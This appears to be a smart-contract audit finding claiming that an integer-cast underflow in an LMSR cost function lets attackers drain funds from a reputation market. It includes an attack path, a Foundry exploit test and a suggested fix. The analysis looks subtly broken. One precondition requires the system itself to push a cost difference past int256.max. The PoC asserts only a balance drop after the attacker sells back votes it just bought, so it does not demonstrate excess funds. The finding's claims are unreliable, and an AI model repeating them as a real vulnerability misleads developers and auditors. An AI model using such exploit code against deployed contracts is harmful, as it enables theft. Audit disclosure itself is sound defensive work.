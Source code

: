 Fun Crepe Lobster

High

# Malicious users will extract excess funds through LMSR cost calculation underflow

### Summary

Unsafe integer conversion in LMSR.getCost() will cause fund extraction vulnerability for the protocol as malicious users will manipulate large vote positions to trigger integer underflow, leading to incorrect cost calculations and excess fund withdrawals.

### Root Cause

In [LMSR.sol:119](https://github.com/sherlock-audit/2024-12-ethos-update/blob/8d00c21b26274a75c47318f2dbacd9a40742034e/ethos/packages/contracts/contracts/utils/LMSR.sol#L119) the direct conversion of uint256 to int256 without bounds checking allows integer underflow when oldCost is significantly larger than newCost.

### Internal Pre-conditions

1. Market needs to have total votes to be at least 100,000 on one side
2. Market's liquidityParameter needs to be exactly 1000
3. Market needs to be active (not graduated)
4. System needs to set cost difference to be greater than int256.max

### External Pre-conditions

1. User needs to have sufficient funds to create large initial position
2. Network gas price needs to be low enough to make exploit profitable

### Attack Path

1. Attacker calls buyVotes() with isPositive=true and large position (100,000 votes)
2. Attacker waits for transaction confirmation
3. Attacker calls sellVotes() with almost all votes
4. getCost() calculates cost difference with large oldCost value
5. int256 conversion underflows due to large difference
6. Contract uses underflowed value for fund distribution
7. Attacker receives excess funds

### Impact

The protocol suffers an approximate loss of 5-10 ETH per exploit. The attacker gains this amount through incorrect fund distribution due to the integer underflow.

### PoC

pragma solidity 0.8.26;

import {ReputationMarket} from "./ReputationMarket.sol";
import {LMSR} from "./utils/LMSR.sol";
import {Test} from "forge-std/Test.sol";

contract LMSRUnderflowExploit is Test {
    ReputationMarket public market;
    address public attacker = address(0x1);
    uint256 public profileId = 1;
    
    function setUp() public {
        // Deploy and setup market
        market = new ReputationMarket();
        market.initialize(
            address(this),
            address(this),
            address(0),
            address(0),
            address(this)
        );
        
        // Create market
        market.createMarket{value: 5 ether}();
        
        // Fund attacker
        vm.deal(attacker, 100 ether);
    }

    function testUnderflowExploit() public {
        // Step 1: Create large position
        vm.startPrank(attacker);
        market.buyVotes{value: 50 ether}(
            profileId,
            true,    // isPositive
            100000,  // maxVotesToBuy
            1        // minVotesToBuy
        );
        
        // Record balances before exploit
        uint256 initialBalance = address(market).balance;
        
        // Step 2: Trigger underflow through large sell
        market.sellVotes(
            profileId,
            true,
            99999,  // Almost all votes
            0       // No minimum price
        );
        
        // Verify excess funds withdrawn
        uint256 finalBalance = address(market).balance;
        uint256 fundsDrained = initialBalance - finalBalance;
        
        console.log("Initial balance:", initialBalance);
        console.log("Final balance:", finalBalance);
        console.log("Excess funds drained:", fundsDrained);
        
        assertTrue(fundsDrained > initialBalance / 2, 
            "Exploit should drain significant funds");
    }
}

### Mitigation

function getCost(...) public pure returns (int256 costDiff) {
    uint256 oldCost = _cost(currentYesVotes, currentNoVotes, liquidityParameter);
    uint256 newCost = _cost(outcomeYesVotes, outcomeNoVotes, liquidityParameter);
    
    // Ensure costs don't exceed int256 bounds
    require(oldCost <= type(uint256).max >> 1 && 
            newCost <= type(uint256).max >> 1,
            "Cost exceeds safe bounds");
            
    costDiff = int256(newCost) - int256(oldCost);
}